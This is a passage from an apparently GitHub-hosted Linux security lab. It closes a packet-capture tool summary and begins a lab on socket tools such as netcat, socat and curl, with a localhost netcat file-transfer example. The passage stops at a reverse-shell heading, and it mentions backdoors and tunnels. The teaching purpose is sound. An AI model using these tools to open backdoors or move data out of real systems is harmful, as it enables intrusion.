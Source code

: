 ### ✅ Summary

| Tool        | Best For                            |
| ----------- | ----------------------------------- |
| `tcpdump`   | Lightweight, fast capture           |
| `wireshark` | Deep, graphical analysis            |
| `tshark`    | Scriptable CLI version of Wireshark |
| `ngrep`     | Find keywords in live packet data   |

> Understanding network traffic is critical for **detecting attacks**, **investigating incidents**, and **proving root cause**.


---
## 🔌 Lab: Sockets & Data Transfer Tools

**Tools Covered**: `nc`, `socat`, `curl`, `wget`, `telnet`, `ftp`, `scp`, `sftp`  
🎯 **Goal**: Learn how Linux communicates over sockets, how files are transferred, and how attackers use and abuse these tools.

---

### 🧠 Why Learn Socket Tools?

Socket tools let you:

- **Transfer files** between systems
- **Create tunnels**, relays, or backdoors
- **Interact with services** directly (e.g. HTTP, FTP)
- Simulate both **client** and **server**

> 🛡️ Understanding them helps you **secure services** and **detect misuse**.

---

### 🧪 Step 1: `nc` – Netcat

#### 1. Transfer files (locally or remotely):

**Sender**:

```bash
nc -lvp 4444 < secret.txt
````

**Receiver**:

```bash
nc localhost 4444 > received.txt
```

✅ Try sending a script, image, or `.txt` file between two terminals.

#### 2. Reverse Shell Simulation (⚠️ Controlled environment only):
